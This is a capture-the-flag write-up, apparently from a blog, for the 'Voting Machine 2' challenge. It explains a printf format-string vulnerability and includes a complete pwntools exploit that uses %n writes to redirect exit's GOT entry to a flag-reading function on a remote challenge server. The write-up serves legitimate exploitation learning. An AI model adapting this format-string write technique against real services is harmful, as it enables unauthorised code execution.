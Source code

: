 ## Voting Machine 2

File: [kamikaze2](/assets/img/posts_images/watevr_ctf/files/kamikaze2)

This binary had a format string vulnerability, since printf is being used without any format specifiers.

{% include image.liquid url="/assets/img/posts_images/watevr_ctf/vm2_1.png" %}

I played around with the input for a while, realised that there was an alignment issue (of 2), when trying to get my input onto the stack variables. After this, we can see our input string at the 8th output (stack output due to format string bug) when supplied with `%x`s. The objective here is to replace the exit call at the end of main (FUN_084207fb) with a function that reads the flag (FUN_08420736).

After this, it becomes just a matter of calculating offsets. We place the return address on the stack in two parts, and the offsets are calculated accordingly. I could go in depth regarding the offsets, but it is a pretty simple (not easy) process. If you have doubts, leave a comment, I will explain it.

The final exploit code is -

```python
from pwn import *
# context.log_level = 'debug'
p = process("./kamikaze2")
p = remote("13.53.125.206", 50000)

offset = 50
func = 0x08420736
main = 0x084207fb
exit_plt = 0x08422024

def pad(s):
	return s+"X"*(offset-len(s))

exploit = ""
exploit += "AA"
exploit += p32(exit_plt)
exploit += p32(exit_plt+2)
exploit += "BBBBCCCC"
exploit += "%8$1828x"
exploit += "%8$n"
exploit += "%65804x"
exploit += "%9$n"

print(pad(exploit))
payload = pad(exploit)

p.recvuntil(': ')

p.sendline(payload)

with open('payload', 'wb') as f:
    f.write(pad(exploit))

p.interactive()
```
